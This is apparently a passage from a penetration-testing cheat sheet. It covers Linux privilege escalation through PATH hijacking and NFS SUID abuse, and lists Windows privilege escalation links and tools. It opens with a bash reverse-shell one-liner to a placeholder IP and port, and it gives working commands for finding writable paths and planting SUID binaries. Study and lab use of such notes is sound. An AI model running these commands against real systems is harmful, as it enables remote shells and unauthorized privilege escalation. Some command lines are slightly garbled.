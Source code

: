 example script:
```
#! /bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

#### PATH:
`echo $PATH`

`find / -writable 2>/dev/null`

`find / -writable 2>/dev/null | cut -de "/" -f 2 | sort -u`

`find / -writable 2>/dev/null | cut -de "/" -f 2,3 | grep -v proc | sort -u`

add /tmp folder to path: `export PATH=/tmp:$PATH`

run path: `./path`

#### NFS:
```
showmount -e <ip

A:  mkdir /tmp/<directory>
    mount -o rw <ip>:<mount_option_from list> /tmp<created_directory>
    cd into directory
    create executable and compile it with gcc <name>.c -o <name> -w
    add Suid bit chmod +s <name>
T:  execute
```

## 6. Windows Privilege Escalation:

### useful Links:

[PayloadAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[HackTricks - Windows Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

[Priv2 Admin (Overview Windows Privileges)](https://github.com/gtworek/Priv2Admin)

[Potatoes - Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato)

[RogueWinRM](https://github.com/antonioCoco/RogueWinRM)

[Decoder Blog (further education)](https://decoder.cloud/)
### Tools:

1. [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

2. [PrivescCheck](https://github.com/itm4n/PrivescCheck)

    We need to bypass Execution Policy in order to run this tool.
